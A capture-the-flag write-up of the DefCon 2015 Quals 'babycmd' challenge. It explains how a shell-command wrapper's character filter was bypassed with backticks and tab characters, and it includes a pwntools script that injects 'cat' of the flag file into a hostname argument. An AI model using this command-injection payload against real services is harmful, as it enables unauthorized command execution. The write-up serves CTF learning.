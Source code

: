 ```yaml
---
layout: post
title: "DefCon 2015 Quals babycmd"
date: 2015-05-18 12:09:01 -0400
author: [superkojiman]
comments: true
categories: [defcon]
---
```


### Solved by superkojiman

babycmd is a 1 point challenge. Connecting to the specified server presents the following menu: 

```
koji@pwnbox:~$ ./sploit.py 
[+] Opening connection to babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me on port 15491: Done

Welcome to another Baby's First Challenge!

koji@pwnbox:~$ nc babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me 15491

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: 
```

Entering one of the commands would call the actual command on the server and pass it a hostname or IP address specified and return the result. Eg: 

```
: host google.com
google.com has address 74.125.228.230
google.com has address 74.125.228.231
google.com has address 74.125.228.232
google.com has address 74.125.228.233
google.com has address 74.125.228.238
google.com has address 74.125.228.224
google.com has address 74.125.228.225
google.com has address 74.125.228.226
google.com has address 74.125.228.227
google.com has address 74.125.228.228
google.com has address 74.125.228.229
google.com has IPv6 address 2607:f8b0:4004:808::1007
google.com mail is handled by 10 aspmx.l.google.com.
google.com mail is handled by 20 alt1.aspmx.l.google.com.
google.com mail is handled by 30 alt2.aspmx.l.google.com.
google.com mail is handled by 40 alt3.aspmx.l.google.com.
google.com mail is handled by 50 alt4.aspmx.l.google.com.
Commands: ping, dig, host, exit
: 
```

I loaded the binary in gdb-peda and looked at the output of checksec:

```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : disabled
```

That’s a lot of security for a 1 point challenge, so I assumed no stack smashing was required. I decided to go with the assumption that babycmd was vulnerable to command injection. 

After spending a bit of time reversing the binary, I noticed that each command was run slightly differently depending on the argument passed to it. For example, if 'host' was called with an IP address, it would build the command to pass to popen() as "host %s". However, if I passed a hostname like pwn.com, it would build the command as "host \"%s\"". That seemed odd, so I decided to dig into it further.

When the 'host' and 'dig' commands are used, two functions are called to check each character in the argument. The first function, sub_d65() filters out !, ", #, $, %, &, |, and *. This first check allows characters 0x3b to 0x7f in the ASCII table. 

The second function does another check and is at sub_dcc(). When this function returns a non-zero value, the command is successfully built and can be used by popen() somewhere down the line. So essentially it looks like this:

```c
sub_10bd() {
    if (sub_d65()) {
        if (inet_aton(host_arg)) {
            // IP address provided
            sprintf(command, "host %s", inet_ntoa(host_arg));
        } else {
            // hostname provided
            if (sub_dcc() != 0) {
                sprintf("command, "host \"%s\", host_arg); 
            }
        }
    }
}
```


Injecting a command into the argument will surely cause inet_aton() to fail, so that means we need to make sure sub_d65() and sub_dcc() succeed so that the injection we send will work. 

As it turns, out this is fairly easy since the backtick character isn't blacklisted. Therefore we could send something like: pwn\`uname\`.com and it would return:

```text
koji@pwnbox:~$ nc babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me 15491

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host pwn`uname`.com
Host pwnLinux.com not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

Notice that the output of uname (Linux) is visible in the error message from 'host'. There was one small problem; the space character was filtered out. Fortunately this was easily fixed by using a tab character instead. 

From here on it was easy to enumerate the target server. I found out that the service was running under the user babycmd (of course) and that the flag was in /home/babycmd. Reading /home/babycmd/flag gave the following:

```
koji@pwnbox:~$ ./sploit.py 
[+] Opening connection to babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me on port 15491: Done

Welcome to another Baby's First Challenge!

Commands: ping, dig, host, exit
: 
host: 'pwnThe flag is: Pretty easy eh!!~ Now let's try something hArd3r, shallwe??.com' is not a legal name (label too long)
Commands: ping, dig, host, exit
: 
[*] Closed connection to babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me port 15491
```

The flag is: **Pretty easy eh!!~ Now let's try something hArd3r, shallwe??**

Here's the exploit I wrote up:

```python
#!/usr/bin/env python

from pwn import *

r = remote("babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me", 15491)

print r.recv()

cmd = "cat\t/home/babycmd/flag"     # can't use space, but we can use tab

buf = ""
buf += "host "      # host command is vulnerable
buf += "pwn`"       # we can use `` to execute commands betweent he hostname
buf += cmd          # inject command here
buf +="`.com"       # host needs this to be a valid hostname
buf += "\n"

r.send(buf)
print r.recv()
print r.recv()
```

